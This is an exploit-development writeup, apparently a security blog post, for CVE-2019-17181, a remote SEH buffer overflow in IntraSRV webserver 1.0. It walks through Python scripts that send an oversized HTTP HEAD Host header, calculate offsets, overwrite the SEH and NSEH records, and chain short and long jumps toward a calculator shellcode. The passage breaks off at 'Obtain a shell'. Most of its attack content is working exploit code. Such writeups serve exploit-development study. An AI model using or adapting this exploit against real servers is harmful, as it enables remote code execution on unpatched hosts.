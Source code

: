 ```yaml
---
layout: single
title: Remote SEH overflow with multi-staged jumps - CVE-2019-17181 from IntraSRV 
---
```


Sending a unauthenticated and malicious HTTP HEAD request to the application results in a SEH based buffer overflow. This exploit utilizes a short JMP which hits a long JMP back 450 bytes which then hits a standard calculator shellcode payload

## IntraSRV webserver 1.0 SEH overflow writeup

```
# Exploit Title: IntraSRV webserver 1.0 SEH overflow writeup
# Date: 10/10/2019
# Exploit Author: x00pwn
# Vendor Homepage: http://www.leighb.com
# Software Link: http://www.leighb.com/intrasrv.htm
# Version: 1.0	
# Tested on: Windows 7
# CVE : CVE-2019-17181
```

## Introduction

This post covers the exploitation of a remote s c h buffer overflow vulnerability in the intrasrv  web server application, the web server application includes this vulnerability when processing HTTP head requests. 

We can start by running the vulnerable application, and attaching it to immunity debugger.

![remotedjmps1.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps1.png)

With our python exploit script, we can start by using a socket connection to send a HTTP request on port 80 to the vulnerable application.  By including a large buffer of A’s,  we can witness the vulnerability taking place via the application crashing, and we see that it is now in a stopped state within our debugger.

```python
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.0.161"
victim_port = 80

exploit_payload = "A" * 4000

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

![remotedjmps2.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps2.png)

## Calculate the buffer, find POPPOPRET

Now that we know that the application is vulnerable, we need to conduct the stage of exploitation where we calculate the input buffer size, this can be done with the pattern_create  tool from Metasploit

```
└─▪ ./pattern_create.rb -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7.... and more...

```

Adding this unique string to our request  shows us that the Structured Exception Handler and NSEH has been overwritten with a part of the unique string.

![remotedjmps3.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps3.png)

Now we need to use the mona.py  extension command !mona findmsp  to calculate the size of the input buffer, based on our uniquely generated string that we gave to the application.

![remotedjmps4.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps4.png)

Now we know it only takes 1553 bytes to fill up the input buffer, the next 4 bytes after this will overwrite the SEH handler, and 4 more bytes will overwrite the NSEH handler in the chain also.

Let's now take over the SEH and NSEH handlers with this new knowledge.

```python
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.0.161"
victim_port = 80

exploit_payload = "A" * 1553
exploit_payload += "B" * 4
exploit_payload += "C" * 4
exploit_payload += "D" * (2000 - len(exploit_payload))

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

![remotedjmps5.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps5.png)

Now we control both the SEH and NSEH handler. Now we want to find a POPPOPRET sequence to escape the SEH chain and get to our shellcode. Use the command `!mona seh -n` to locate POPPOPRETs.

![remotedjmps6.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps6.png)

There are none without null bytes, but sometimes this still works even with a partial POPPOPRET, let's try it and see where the POPPOPRET takes us.

```python
exploit_payload = "A" * 1553
exploit_payload += "C" * 4 # nseh_stage1
exploit_payload += seh_handler
exploit_payload += "A" * (4000 - len(exploit_payload))
```
![remotedjmps7.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps7.png)

If you view and click to view the SEH handler, you can see that it leads to a memory address with our POPPOPRET sequence, this is great news.

## Implement multiple JMPs

```python
nseh_stage1 = "\x90\x90\xEB\xF6" # JMP back 10 bytes
jmp450_stage2 = "\x90\x90\x90\xE9\x3E\xFE\xFF\xFF" # Have it hit our long jump back 450
seh_handler = pack('<L', 0x004097dd) # our POP POP RETN from intrasrv.exe

# 0x004097dd : pop eax # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [intrasrv.exe]
# ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\john\Desktop\intrasrv.exe)

exploit_payload = "A" * (1553 - len(shellcode_calc) - 8) + shellcode_calc
exploit_payload += jmp450_stage2
exploit_payload += nseh_stage1
exploit_payload += seh_handler
exploit_payload += "A" * (4000 - len(exploit_payload))
```

## Obtain a shell
